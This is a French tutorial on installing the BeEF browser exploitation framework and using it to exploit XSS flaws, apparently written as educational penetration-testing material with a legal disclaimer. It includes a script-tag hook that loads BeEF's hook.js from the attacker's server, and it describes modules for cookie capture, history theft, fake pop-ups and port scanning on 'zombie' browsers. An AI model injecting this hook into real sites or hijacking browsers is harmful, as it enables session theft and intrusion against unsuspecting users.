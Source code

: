 # BeEF et Hacking XSS

# 1- Introduction

BeEF, ou Browser Exploitation Framework, est un outil puissant utilisé pour tester la sécurité des navigateurs web en exploitant les vulnérabilités XSS (Cross-Site Scripting). Ce guide vous aidera à comprendre comment utiliser BeEF pour exploiter les vulnérabilités XSS et tester la sécurité de vos applications web.

# 2 - Prérequis

- Une machine avec une distribution Linux (ex. : Ubuntu)
- Ruby installé
- Git installé

# 3 - Installation de BeEF

1. Clonez le dépôt BeEF depuis GitHub :

   ```sh
   git clone https://github.com/beefproject/beef.git
   ```

2. Accédez au répertoire BeEF :

   ```sh
   cd beef
   ```

3. Installez les dépendances :

   ```sh
   ./install
   ```

4. Démarrez BeEF :

   ```sh
   ./beef
   ```

# 4 - Configuration de BeEF

1. Ouvrez le fichier de configuration BeEF (`config.yaml`) dans un éditeur de texte :

   ```sh
   nano config.yaml
   ```

2. Configurez les paramètres suivants :
   
   - `beef.credentials.user: "votre_utilisateur"`
   - `beef.credentials.passwd: "votre_mot_de_passe"`

3. Sauvegardez et fermez le fichier.

# 5 - Utilisation de BeEF

### Accès à l'Interface Web de BeEF

1. Ouvrez votre navigateur et accédez à `http://localhost:3000/ui/panel`.

2. Connectez-vous avec les identifiants configurés dans `config.yaml`.

### Exploitation XSS avec BeEF

#### Injection d'un Hook JavaScript

Pour exploiter une vulnérabilité XSS, vous devez injecter un hook JavaScript dans la page cible. Voici un exemple de code de hook :

```html
<script src="http://[IP_de_votre_serveur]:3000/hook.js"></script>
```

Remplacez `[IP_de_votre_serveur]` par l'adresse IP de votre machine exécutant BeEF.

#### Simulation d'une Attaque XSS

1. Identifiez une vulnérabilité XSS dans l'application web cible.

2. Injectez le code de hook JavaScript dans le champ vulnérable.

3. Une fois le hook exécuté, l'interface BeEF affichera la cible comme un "Zombie Browser".

### Modules d'Exploitation

BeEF fournit plusieurs modules d'exploitation que vous pouvez utiliser une fois que le navigateur de la victime est hooké. Voici quelques exemples :

- **Social Engineering** : Affichage de faux pop-ups, redirections, etc.
- **Network** : Scan de ports, collecte d'informations réseau.
- **Browser** : Récupération d'historique de navigation, capture de cookies.

Pour utiliser un module :

1. Sélectionnez le "Zombie Browser" dans l'interface BeEF.
2. Allez dans l'onglet "Commands".
3. Choisissez un module et cliquez sur "Execute".

# 6 - Conclusion

BeEF est un outil puissant pour tester la sécurité des navigateurs et des applications web contre les attaques XSS. En comprenant comment injecter des hooks JavaScript et utiliser les modules d'exploitation de BeEF, vous pouvez identifier et corriger les vulnérabilités avant qu'elles ne soient exploitées par des attaquants malveillants.

## Avertissement

L'utilisation de BeEF pour attaquer des systèmes sans autorisation est illégale et contraire à l'éthique. Ce guide est destiné à des fins éducatives et de test de sécurité autorisés uniquement. Utilisez BeEF de manière responsable.

## Ressources

- [BeEF Project GitHub](https://github.com/beefproject/beef)
- [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
